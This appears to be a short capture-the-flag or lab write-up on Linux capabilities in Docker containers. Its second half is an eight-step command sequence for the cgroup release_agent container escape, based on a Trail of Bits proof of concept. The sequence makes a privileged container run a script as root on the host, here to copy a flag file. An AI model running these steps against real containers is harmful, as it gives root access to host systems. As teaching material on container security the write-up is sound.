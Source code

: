 ## What is Capabilities?
Capabilities in Linux are root permissions given to certain processes or executables within the Linux kernel. These privileges allow for the granular assignment of privileges. These capabilities determine what permissions a Docker container has to the operating system. Docker containers can run in two modes:
- **User (Normal) mode**: Only restricted to Docker engine.
- **Privileged mode**: Able to access and run command on host OS as root.
## Viewing Container Capabilities
We can use utility such as `capsh` which comes with the `libcap2-bin` package to list the capabilities our container has. For example:
```bash
capsh --print
```
This command would return capabilities and we might be able to see something of interest, for eample:
```bash
Current: = cap_chown, cap_sys_module, cap_sys_chroot, cap_sys_admin, cap_setgid,cap_setuid
```
## Exploiting Capabilities
The code snippet below is based upon (but a modified) version of the [Proof of Concept (PoC) created by Trailofbits](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/#:~:text=The%20SYS_ADMIN%20capability%20allows%20a,security%20risks%20of%20doing%20so.), which details the inner workings of this exploit well.
**1.** `mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x`
**2.** `echo 1 > /tmp/cgrp/x/notify_on_release`
**3.** `host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab``
**4.** echo "$host_path/exploit" > /tmp/cgrp/release_agent
**5.** echo '#!/bin/sh' > /exploit
**6.** echo "cat /home/cmnatic/flag.txt > $host_path/flag.txt" >> /exploit
**7.** chmod a+x /exploit
**8.** sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"